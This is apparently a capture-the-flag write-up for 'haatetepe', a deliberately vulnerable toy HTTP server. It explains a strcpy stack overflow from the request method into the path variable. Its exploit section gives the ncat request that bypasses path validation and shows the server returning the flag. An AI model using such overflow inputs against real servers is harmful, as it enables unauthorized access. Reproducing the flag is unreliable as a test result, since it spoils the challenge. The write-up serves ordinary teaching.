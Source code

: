 # haatetepe

- Author: fslaktern
- Category: pwn
- Difficulty: easy
- Description:

    The best haatetepe server in Norway comes with speed, small size and modular routing. I've disabled the /flag route for now, though. Check out the server and let me know what you think! I haven't done any benchmarks, but I bet it's faster than NGINX, and it uses less than 1MB memory!

    It's in its (very) early stages, but I'm planning on implementing the rest of the HTTP header specification when I get time. Thanks for stopping by!


## Vulnerability

- Use of insecure `strcpy` to set request method. This can overflow the next variable on the stack, which is `path`.

## Exploit


- Stack overflow in method string sets path to illegal path `/flag` after path validation

``` sh
echo "GET / HTTP/1.1" | ncat --ssl 26b908f8-e830-43cb-83c6-e0d25f09273d.chall.nnsc.tf 41337
< HTTP/1.1 200 OK
< Content-Length: 32
< Content-Type: text/plain
< 
< Welcome to haatetepe, not nginx!

echo "GETaaaaaaaaaaaaa/flag / HTTP/1.1" | ncat --ssl 26b908f8-e830-43cb-83c6-e0d25f09273d.chall.nnsc.tf 41337
< HTTP/1.1 200 OK
< Content-Length: 151
< Content-Type: text/plain
< 
< Well of course you can have the flag! All you have to do is ask.
< Flag: NNS{wh4t_d0_y0u_m34n_my_53rv3r_15n7_s3cur3?_4nd_n0_1_w0n7_u53_Rust_58b83a159f28}⏎               
```
